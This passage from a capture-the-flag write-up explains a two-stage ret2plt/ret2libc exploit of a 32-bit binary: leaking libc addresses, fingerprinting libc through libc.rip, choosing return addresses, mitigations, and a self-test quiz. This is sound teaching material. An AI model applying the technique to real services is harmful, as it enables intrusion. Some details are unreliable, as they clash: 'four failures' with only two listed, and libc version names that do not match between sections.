offset. A single leaked symbol cannot distinguish between them — and, critically, `system()`'s and
`/bin/sh`'s offsets are not guaranteed to be identical across different patch releases even when `write`'s
happens to be. Picking `candidates_32[0]` blindly selected whichever one the API listed first, which in
this case was not an exact match for the remote service's real libc.

**Fix:** leak a **second**, independent symbol (`__libc_start_main`, the same choice the write-up's own
original analysis called for) and supply both to libc.rip's query. Two independent symbols matching
simultaneously narrows the candidate space far more aggressively than one:

```python
req_symbols = {'write': hex(leaked_write)}
if leaked_libc_start_main is not None:
    req_symbols['__libc_start_main'] = hex(leaked_libc_start_main)
```

With both symbols supplied, the ambiguous three-way tie collapsed to a single, correct candidate
(`glibc-2.12-1.166.el6_7.7.i686` in the confirmed run shown in Section 8), and the exploit completed
successfully, both locally and against the live remote service.

### 9.5 What all four failures have in common

None of these four problems were visible from static analysis of the binary, and none of them would have
been caught by re-deriving the offset or re-reading the disassembly more carefully — the ROP logic itself
was correct from the very first draft. All four were **environment and ecosystem** issues: a pwntools API
detail,a libc-naming-convention trap. 
This is a useful, generalizable lesson on its own: a working exploit script is not just "correct ROP math" — 
it also has to correctly navigate the tooling and data sources around that math, and several of the most time-consuming 
bugs in a real exploitation session live entirely in that second category.

---

## 10. Why Return Into `vulnerable_function` and Not `main`

The fake "return address" placed immediately after `write@plt` (and, implicitly, after `system_addr` in
Stage 2) is a deliberate choice, not an arbitrary one.

If the leak payload instead returned to `main`, execution would fall through to:

```asm
80484d9: c7 44 24 08 0d 00 00 00 mov    DWORD PTR [esp+0x8], 0xd
80484e1: c7 44 24 04 d0 85 04 08 mov    DWORD PTR [esp+0x4], 0x80485d0
80484e9: c7 04 24 01 00 00 00    mov    DWORD PTR [esp], 0x1
80484f0: e8 ab fe ff ff          call   80483a0 <write@plt>    ; write(1, "Hello, World\n", 13)
80484f5: c9                      leave
80484f6: c3                      ret
```

— printing `"Hello, World\n"` and then returning from `main` entirely, ending the process (or at least
ending its usefulness for a second payload) before a second overflow could ever be delivered.

Returning into `vulnerable_function` itself instead means execution lands back at the very top of the
function that calls `read()` — skipping `main`'s own trailing logic entirely, and leaving the process
sitting at exactly the point where it's ready to accept another payload. This is what makes the two-stage
leak-then-exploit design possible with a single, continuously running process rather than needing to
restart the connection between stages.

> **Correct lesson:** choose your "fake return address" deliberately based on what code runs next —
> returning into the *vulnerable function itself* is a common, clean way to get a repeatable leak
> primitive, specifically *because* it skips over any of the caller's own side effects (like print
> statements) that could otherwise contaminate your socket read.

---

## 11. Root Cause & Mitigations

| Layer | Issue | Fix |
|---|---|---|
| **Source code** | `read(0, buffer, 0x100)` with a 136-byte buffer — size mismatch, no validation | Use a `read()` size that matches the destination buffer, or switch to a safer pattern that explicitly bounds-checks before copying. |
| **Compiler** | `-fno-stack-protector` | Build with `-fstack-protector-strong`/`-all` so a canary catches the overwritten return address before `ret` executes. |
| **Linker/loader** | `-no-pie` | Building with `-pie -fPIE` randomizes the main binary's own addresses too, forcing an attacker to leak a binary-base address as well, not just a libc address. |
| **Runtime (libc)** | ASLR already applies here, which is *why* a leak was required at all | This is the mitigation already working correctly in this challenge — it's precisely what turned a one-shot exploit into a two-stage leak-then-exploit, raising the bar even without a canary. |
| **GOT hardening** | Partial RELRO leaves GOT entries writable until first use | Full RELRO (`-z now`) would resolve all PLT/GOT entries at load time, removing the "lazy binding" window this exploit's leak implicitly relies on, and would also block a direct GOT-overwrite attack as a separate technique. |

> **One-line summary for interviews:** *this binary demonstrates that ASLR alone (on libc) is a real
> speed bump — it forces an info leak — but without a stack canary or PIE on the main binary, the leak
> itself is trivial to obtain via a single clean `ret2plt` call.*

---

## 12. Key Takeaways

| Concept | What this challenge taught |
|---|---|
| ret2plt | Returning directly into an existing PLT stub lets you call any already-linked library function with attacker-chosen arguments, using nothing but the stack — no shellcode, no gadgets. |
| Information leaks under ASLR | When only *part* of a target is randomized (here: libc, but not the main binary), you can use the non-randomized part to leak an address from the randomized part. |
| `cdecl` calling convention | Why a single overwritten return address, followed by a fake return address and arguments on the stack, is already a fully valid function call — no register-loading gadgets required. |
| Choosing a "fake return address" deliberately | Returning into a function you control the behavior of (here, `vulnerable_function`) instead of the natural caller (`main`) avoids unwanted side effects like extra printed output, and enables a clean multi-stage exploit. |
| Libc fingerprinting with one symbol can be ambiguous | Multiple glibc patch builds can share one symbol's offset while differing in another's — leaking two independent symbols, not one, is what actually guarantees a unique match. |
| An id string is not a reliable architecture check | `x32` is a genuinely different ABI from `i386`/`i686`, yet can still contain the substring `"i386"` in its name — verify the downloaded file's real ELF bitness directly rather than trusting a naming convention. |
| `pwnlib.args` vs. raw `sys.argv` | pwntools' own argv-parsing helper can consume tokens like `REMOTE` out of `sys.argv` — check `args.REMOTE`, not `'REMOTE' in sys.argv`, for version-safe behavior. |
| Hardcoded `recvuntil()` strings are fragile | A banner string copied from a different challenge (or simply wrong) causes a silent hang, not a clear error — draining with a short-timeout `recv()` and logging what's actually received is both safer and self-diagnosing. |

---

## 13. Self-Test Quiz

<details>
<summary><b>Q1.</b> Why can't the exploit simply hardcode the address of <code>system()</code> the way a sibling <code>ret2syscall</code> challenge hardcodes gadget addresses?</summary><br>

Because this binary is dynamically linked and PIE is only disabled for the *main binary*, not for libc.
The shared library (`libc.so`) is still loaded at a randomized base address on every run (standard ASLR
for shared objects), so `system()`'s absolute address changes each execution and must be computed at
runtime from a freshly leaked address.
</details>

<details>
<summary><b>Q2.</b> What specific property of the <code>cdecl</code> calling convention makes it possible to call <code>write()</code> and <code>system()</code> here without any ROP gadgets?</summary><br>

In `cdecl`, the caller pushes arguments onto the stack (right-to-left) before the `call`, and the callee
reads them relative to the stack pointer after the return address. Overwriting a return address with a
function's entry point, followed by a fake return address and the arguments in the exact order/position
a normal call would leave them, reproduces that same stack shape — so the function executes exactly as
if it had been called normally, without needing any register-loading gadgets.
</details>

<details>
<summary><b>Q3.</b> Why does the exploit set the "return address" after <code>write@plt</code> to <code>vulnerable_function</code> instead of <code>main</code>?</summary><br>

So that control flow never reaches the part of `main` that prints `"Hello, World\n"` and returns
normally, and so that execution lands back at a `read()` call, letting a second (or further) payload be
sent cleanly without extra side effects or needing the program to restart.
</details>

<details>
<summary><b>Q4.</b> The exploit leaks <code>write</code>'s own address by reading from <code>write@got</code> immediately after calling <code>write@plt</code> for (functionally) the first time. Why does this work correctly rather than leaking an unresolved placeholder?</summary><br>

PLT stubs use lazy binding: the very act of calling `write@plt` triggers the dynamic linker to resolve
the real address of `write()` in libc and write it into `write`'s GOT entry *before* the actual `write()`
body executes. By the time the call reads 4 bytes from `write@got` to send them to us, that GOT slot has
already been patched with `write`'s real address.
</details>

<details>
<summary><b>Q5.</b> This exploit leaks <code>__libc_start_main</code> in addition to <code>write</code>. Section 9.4 shows a concrete case where this mattered. Summarize what went wrong with only one leaked symbol, and why a second symbol fixed it.</summary><br>

With only `write` leaked, libc.rip's candidate list contained three different glibc patch builds
(`2.38-12`, `2.38-13`, `2.38-14`) that all happened to share the exact same `write()` offset — a tie that
a single symbol cannot break. The script's default behavior (picking the first candidate) selected a
build whose `system()`/`"/bin/sh"` offsets did not actually match the remote target's real libc, causing
the final payload to compute wrong addresses and crash the process. Adding a second, independently leaked
symbol (`__libc_start_main`) to the libc.rip query required *both* offsets to match simultaneously, which
narrowed the three-way tie down to a single correct candidate.
</details>

<details>
<summary><b>Q6.</b> What would Full RELRO change about this exploit, and why?</summary><br>

Full RELRO resolves all PLT/GOT entries at program load time (instead of lazily, on first call) and then
makes the GOT read-only. This exploit's leak specifically relies on the GOT being writable and PLT
resolution happening lazily *during* the exploit's own first call to `write@plt`; with Full RELRO, GOT
contents would already be fixed before the exploit even starts (which doesn't break the leak idea itself,
since the values would still be correct and readable) but it would close off a *different*, more direct
attack: overwriting a GOT entry to redirect a function call, which Partial RELRO still permits.
</details>

<details>
<summary><b>Q7.</b> An <code>x32</code> libc build slipped through a naive <code>'i386' in candidate_id</code> filter in Section 9.3. Explain exactly why that filter was insufficient, and describe the independent, structural check that was added afterward.</summary><br>

`x32` is a distinct Linux ABI — a 64-bit binary using 32-bit-wide pointers — not a genuine 32-bit
(`i386`/`i686`) build, yet libc.rip's id strings for `x32` builds (e.g.
`"libc6-x32_2.31-13+deb11u11_i386"`) can still contain the literal substring `"i386"` somewhere in the
name, which a naive `if 'i386' in candidate_id` check cannot distinguish from a genuine i386 build. The
fix added two layers: first, an explicit `if 'x32' in candidate_id: continue` exclusion before the
substring check runs at all; second — and more robust, since it doesn't depend on any naming convention —
a direct check of the *downloaded file's actual ELF bitness* (`downloaded_libc.bits != 32`), which
would catch this mismatch (or any other architecture-naming surprise) regardless of what the id string
happens to say.
</details>

<details>
<summary><b>Q8.</b> The <code>connect()</code> function checks <code>args.REMOTE</code> rather than <code>'REMOTE' in sys.argv</code>. Explain the underlying pwntools mechanism that makes the latter unreliable.</summary><br>

`from pwn import *` activates `pwnlib.args`, a helper that scans `sys.argv` at import time for bare
uppercase tokens such as `REMOTE`, `DEBUG`, or `NOASLR` and moves them into a separate `args` object for
convenient dot-access (`args.REMOTE`). Depending on the installed pwntools version, this process does not
reliably leave the original string sitting in `sys.argv` afterward — meaning a script that checks
`'REMOTE' in sys.argv` directly may be inspecting a list the token has already been removed from, causing
the check to silently evaluate `False` even when `REMOTE` genuinely was passed on the command line. Using
`args.REMOTE` checks the object pwntools itself populated for exactly this purpose, which is stable across
versions.
</details>

<details>
<summary><b>Q9.</b> Why did hardcoding <code>recvuntil(b'Show me your magic again\n')</code> cause an <code>EOFError</code> instead of simply timing out or failing more gracefully?</summary><br>

`recvuntil()` blocks until either the exact target bytes appear in the stream or the connection's
configured timeout elapses (or the socket itself closes). Because the hardcoded string belonged to a
different challenge's banner and this binary never sends it, `recvuntil()` had no way to know its target
would never arrive, and it simply kept waiting against the open socket. Eventually, the *remote service
itself* (not pwntools) closed the idle connection — likely due to its own inactivity timeout — which
surfaces to `recvuntil()` as an unexpected end-of-file condition, raised as `EOFError`, rather than a
clean, intentional timeout the script itself requested.
</details>

<details>
<summary><b>Q10.</b> How was the 140-byte offset to the saved return address derived, and how was it independently verified?</summary><br>

Derived from the disassembly: the buffer sits at `ebp-0x88`, so it's 136 (`0x88`) bytes from the buffer's
start to the saved `EBP`, plus 4 more bytes for the saved `EBP` itself, giving `136 + 4 = 140` bytes to
the saved return address. It was verified empirically by sending `"A"*140 + "BBBB"` and observing that
the crashed program's `EIP` became `0x42424242` (the packed form of `"BBBB"`).
</details>

<details>
<summary><b>Q11.</b> Name two independent mitigations that, if enabled together, would make this exact two-stage exploit significantly harder, and explain why.</summary><br>

1. **Stack canary** — would detect the return-address overwrite before `ret` executes, stopping the
   overflow from hijacking control flow at all, before any leak is even attempted.
2. **PIE on the main binary** — would randomize `vulnerable_function`'s, `main`'s, and every PLT stub's
   address too, meaning the attacker would need to leak a *binary-base* address first (in addition to a
   libc address) before being able to compute any usable address for Stage 1 itself, not just Stage 2.
</details>

---
